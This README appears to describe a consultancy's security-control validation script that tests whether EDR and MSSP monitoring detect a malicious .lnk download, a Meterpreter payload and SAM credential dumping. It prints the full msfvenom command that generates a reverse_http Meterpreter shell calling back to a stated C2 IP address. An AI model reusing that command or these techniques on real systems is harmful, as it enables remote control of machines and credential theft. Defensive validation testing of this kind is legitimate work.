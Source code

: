 # ResponseValidation
```
                                                                                               @@@
                                                                                             @@@ @ @@@@
                                                                                           @@@ @ @@@ @
                                                                                        @@@@ @@@@ @  @@@
                                                                                     /@@@ @@@@  @@@@@ @
                                                                                  #@@. @@@@ @@@@@ &@
                                                                               @@@@@@@@  @@@   @@@@@@&
                                                                            @@@@@@@@@@@@  @@@@@@ @@
                                                                         @@@@@@@@@@@@@@@@   @@@@@@
                                                                      @@@@@@@@@@@@@ %@@@@@   @@
                                                  @@               @@@@    @@@@@@@@   @@@@@@@.@
                                             @@@@ @@@@          @@@@       @@@@@@@@      @@
                                          @@@     @@@@@@      @@@@       @@@@@@@@@@@@  @
                                       @@@@            @@@   @@@       @@@@@@@@@@@@@@ @
                                       @@               @@@ @@@       @@@@@@@  @@@@
                                        @@              @@@@@@      @@@@@@@@@@  @@
                                         @@              @@@@      @@@@@@@@@@@@
                                          @(          /@@@        @@@@@    @
                                          @@       @@@@          @@@@@@@@ @
                                          @ @@@@@@@#             /@@@@@@@
                                        @@@@@@@                    @@@@ @
                                      @  @@@@@                       @@@@
                                    @  @@@@             @@/            @@@@@@
                                   @ %@@ @@  @@@@@@@@,   @@         ,@@@@@@@@@@@@@@@@@@@@@@@@@@@
                                    @ @@         @@@@@  @@@@@@@@@@@  ,@@@@@@@@@@@@,@@% ,@@@@@@@
                                     @           @@@@@ @@                  &@@& @@  @@@@@@
                                                @@@@@@@*
                                               @@@ @@
                                            @@   @
    TRIFIDENT                           @@ @@@@@
Security Validation Tests v0.1              @
```
Runs a series of validation checks on the local machine to serve as proof-points for our assessment and are based on the identification of implemented security controls, where we attempt to validate these controls are working as intended. This is not a penetration test, rather a validation that security controls are working properly, and where possible, to test incident communications between providers and response times.

The Following test will be performed:

## Validate EDR Detection and Response:
### T1204.002 : User Execution: Malicious File

> Defanged malicious .lnk file
> Generated by RedCanary as part of the Atomic Red Team framework. All code available for review on their Github Page [Link].  Trifident has reviewed the resulting putty and confirmed it is non-malicious.
	
> LNK files are based on the Shell Link Binary file format, also known as Windows shortcuts. But what seems a relatively simple ability to execute other binaries on the system can inflict great harm when abused by threat actors. Microsoft’s decision to block macros by default for files downloaded from the internet in Office applications provoked malware developers to shift to other techniques. 

> This test downloads a crafted .lnk file from github, and then attempts to execute it. When executed, the .lnk file attempts to download a clean copy of Putty (a windows based ssh client) as “a.exe” and attempts to execute it. 

> Expected Outcome: EDR detects, alerts, and quarantines the LNK file, however Putty still executes.


### T1204.002 : User Execution: Malicious File
> Defanged Malware: Meterpreter 
> Generated by Trifident for this engagement, using the following command: 
> msfvenom -p windows/meterpreter_reverse_http LHOST=172.174.245.183 LPORT=9191 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe

> Meterpreter is a Metasploit attack payload that provides an interactive shell to the attacker from which to explore the target machine and execute code. Meterpreter is deployed using in-memory DLL injection. As a result, Meterpreter resides entirely in memory and writes nothing to disk. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.

> Shell.exe attempts to shovel a meterpreter shell from the host machine to a Trifident owned C2 server over HTTP (port 9191) located in Azure at the IP address of 172.174.245.183.  The C2 meterpreter listener is disabled by default on our C2 server. If execution succeeds, the C2 channel will not be established. If you would like to validate the C2 server is non-operational prior to execution, you can perform the following test:
> nmap -p 9191 172.174.245.183
> *Note: Other ports may be open as this C2 server is used for multiple engagements.

Expected Outcome: SentinelOne detects, alerts, and quarantines shell.exe without execution.


### T1003.002 : OS Credential Dumping: Security Account Manager
> This test uses the LOLbin “reg” (more info) to attempt to dump the SAM registry hive to a temp file location. This technique is known by attackers to retrieve password hashes and key material. 

> Expected Outcome: SentinelOne detects, alerts, and prevents execution.

### Capture notification evidence
The script will note the time each test was executed. Please take screenshots of any emails, phone calls, text messages, or any other contact method used by the MSSP vendor. 
For any tickets that are opened, assigned, or you are notified of, please respond indicating that this was as a result of ongoing security testing, and that the ticket can be closed. 

### Clean Up
> All files downloaded, installed, or created by this script will be automatically removed at completion


